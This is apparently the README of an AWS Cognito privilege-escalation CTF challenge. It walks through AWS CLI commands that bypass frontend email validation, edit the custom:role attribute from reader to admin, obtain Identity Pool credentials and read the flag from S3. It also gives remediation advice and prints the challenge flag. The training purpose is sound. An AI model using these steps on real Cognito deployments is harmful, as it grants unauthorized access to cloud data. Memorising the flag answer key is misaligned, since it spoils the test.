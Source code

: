 # Challenge 02 - AWS Cognito Privilege Escalation

## Overview

This challenge demonstrates a common vulnerability in AWS Cognito implementations where custom user attributes can be manipulated to escalate privileges. Players will exploit weak role mapping configurations in Cognito Identity Pools to gain unauthorized access to sensitive resources.

## Vulnerability Description

The challenge contains two main vulnerabilities:

1. **Client-side validation bypass**: Email domain validation is performed only on the frontend, allowing direct registration via AWS CLI
2. **Privilege escalation via custom attributes**: Users can modify their `custom:role` attribute to escalate from `reader` to `admin` role, gaining access to privileged AWS resources

## Architecture

```
┌─────────────────┐    ┌──────────────────┐    ┌─────────────────┐
│   Web App       │    │   Cognito        │    │   Identity      │
│   (S3/API GW)   │◄──►│   User Pool      │◄──►│   Pool          │
└─────────────────┘    └──────────────────┘    └─────────────────┘
                                │                        │
                                ▼                        ▼
                       ┌──────────────────┐    ┌─────────────────┐
                       │   Lambda         │    │   IAM Roles     │
                       │   (Post-Confirm) │    │   Reader/Admin  │
                       └──────────────────┘    └─────────────────┘
                                                        │
                                                        ▼
                                               ┌─────────────────┐
                                               │   S3 Bucket     │
                                               │   (Flag)        │
                                               └─────────────────┘
```

## Attack Flow

### Step 1: Reconnaissance
- Navigate to the web application
- Inspect source code to find Cognito configuration
- Extract User Pool ID, Client ID, and Identity Pool ID

### Step 2: Bypass Registration Validation
The frontend validates email domains, but this can be bypassed by registering directly via AWS CLI:

```bash
aws cognito-idp sign-up \
  --client-id 'CLIENT_ID' \
  --username 'attacker@example.com' \
  --password 'SecurePass123!' \
  --user-attributes '[
    {"Name":"given_name","Value":"John"},
    {"Name":"family_name","Value":"Doe"}
  ]'
```

### Step 3: Email Verification
Verify the email address using the confirmation code:

```bash
aws cognito-idp confirm-sign-up \
  --client-id 'CLIENT_ID' \
  --username 'attacker@example.com' \
  --confirmation-code 'VERIFICATION_CODE'
```

### Step 4: Login and Extract Tokens
- Login through the web interface
- Extract `access_token` and `id_token` from browser localStorage
- Note the initial `custom:role` attribute is set to `reader`

### Step 5: Privilege Escalation
Update the custom role attribute to escalate privileges:

```bash
aws cognito-idp update-user-attributes \
  --access-token 'ACCESS_TOKEN' \
  --user-attributes '[{"Name":"custom:role","Value":"admin"}]'
```

### Step 6: Obtain AWS Credentials
Get Identity Pool credentials using the updated ID token:

```bash
# Get Identity ID
aws cognito-identity get-id \
  --identity-pool-id 'IDENTITY_POOL_ID' \
  --logins "cognito-idp.REGION.amazonaws.com/USER_POOL_ID=ID_TOKEN"

# Get AWS credentials
aws cognito-identity get-credentials-for-identity \
  --identity-id 'IDENTITY_ID' \
  --logins "cognito-idp.REGION.amazonaws.com/USER_POOL_ID=ID_TOKEN"
```

### Step 7: Access the Flag
Use the obtained AWS credentials to access the S3 bucket containing the flag:

```bash
export AWS_ACCESS_KEY_ID="OBTAINED_ACCESS_KEY"
export AWS_SECRET_ACCESS_KEY="OBTAINED_SECRET_KEY"
export AWS_SESSION_TOKEN="OBTAINED_SESSION_TOKEN"

aws s3 cp s3://FLAG_BUCKET_NAME/flag.txt ./flag.txt
cat flag.txt
```

## Key Learning Points

1. **Client-side validation is insufficient**: Always implement server-side validation for security controls
2. **Custom attributes security**: Carefully consider which attributes users can modify and implement proper authorization checks
3. **Identity Pool role mapping**: Use fine-grained role mapping rules and avoid overly permissive configurations
4. **Token exposure**: Sensitive tokens stored in browser storage can be extracted and misused

## Security Recommendations

1. **Server-side validation**: Implement email domain validation on the backend
2. **Attribute protection**: Mark sensitive custom attributes as admin-only or implement proper authorization
3. **Role mapping**: Use more specific role mapping rules based on verified claims
4. **Least privilege**: Apply principle of least privilege to IAM roles
5. **Token security**: Consider using secure, httpOnly cookies instead of localStorage for token storage

## Deployment

1. Copy `terraform.tfvars.example` to `terraform.tfvars` and update values
2. Initialize and apply Terraform:
   ```bash
   terraform init
   terraform apply
   ```
3. Update the web application with the generated Cognito configuration
4. Upload web content to the S3 bucket

## Flag

`CTF{c0gn1t0_pr1v1l3g3_3sc4l4t10n_vuln3r4b1l1ty}`

## Resources

- [AWS Cognito Security Best Practices](https://docs.aws.amazon.com/cognito/latest/developerguide/security.html)
- [Identity Pool Role Mapping](https://docs.aws.amazon.com/cognito/latest/developerguide/role-based-access-control.html)
- [CloudGoat Vulnerable Cognito](https://github.com/RhinoSecurityLabs/cloudgoat)
